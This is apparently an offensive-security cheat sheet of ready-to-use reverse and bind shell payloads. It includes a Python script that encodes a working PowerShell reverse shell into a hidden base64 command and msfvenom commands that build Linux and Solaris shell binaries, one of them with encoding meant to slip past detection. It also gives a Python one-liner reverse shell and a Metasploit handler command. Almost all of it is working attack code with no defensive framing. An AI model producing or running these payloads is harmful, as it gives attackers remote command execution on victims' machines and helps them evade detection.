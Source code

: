 #### Python to encode Powershell Reverse Shell

```
Quick Python Powershell Reverse Shell generator
---

import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.164",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)

```

### <ins>LINUX</ins>

#### **Reverse Shell**

```
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf

msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf

msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf

msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```
#### Bind Shell

```
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<IP> LPORT=<PORT> -f elf > bind.elf
```
#### SunOS (Solaris)

```
msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf
```

#### Another Python Method

```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'


msfconsole -q -x "use multi/handler; set payload cmd/unix/reverse_python; set lhost 192.168.45.222; set lport 4444; exploit"
```
